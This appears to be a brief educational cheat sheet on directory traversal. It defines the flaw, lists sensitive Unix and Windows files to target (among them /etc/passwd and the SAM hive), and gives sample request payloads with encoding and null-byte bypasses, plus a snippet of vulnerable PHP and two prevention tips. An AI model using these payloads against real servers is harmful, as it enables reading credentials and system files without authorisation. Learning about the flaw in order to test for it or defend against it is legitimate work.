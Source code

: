 
What is directory traversal?
> Directory traversal (also known as file path traversal) is a web security vulnerability that allows an attacker to read arbitrary files on the server that is running an application. This might include application code and data, credentials for back-end systems, and sensitive operating system files. In some cases, an attacker might be able to write to arbitrary files on the server, allowing them to modify application data or behavior, and ultimately take full control of the server.



Target
- For Unix-based operating systems
    - /etc/passwd           Contains information about all the user’s account
    - /etc/group            Contains groups to which users belong
    - /etc/profile          Contains default variables for users
    - /proc/self/environ    Contains certain environmental variables
    - /etc/issue            Contains message to be displayed before the login
    - /proc/version         Contains the Linux kernel version in use
    - /proc/cpuinfo         Contains the processor information

- For Windows Operating systems
    - C:\Windows\repair\system
    - C:\Windows\repair\SAM
    - C:\Windows\win.ini
    - C:\boot.ini
    - C:\Windows\system32\config\AppEvent.Evt


Sample
- <img src="/loadImage?filename=218.png">
- /var/www/images/218.png
- linux         
    - GET /image/loadImage?filename=../../../etc/passwd
    - GET /image/loadImage?filename=/etc/passwd
    - GET /image?filename=....//....//....//etc/passwd
    - GET /image?filename=..%252f..%252f..%252fetc/passwd
    - GET /image?filename=/var/www/images/../../../etc/passwd
    - GET /image?filename=../../../etc/passwd%00.png
- windows      
    - https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini


A typical example of a vulnerable PHP code is:
```php
<?php
	$file = $_GET['page'];          //The page we want to display
?>
```
How to prevent a directory traversal attack
- Sanitize Filename Parameters
- Principle of Least Privilege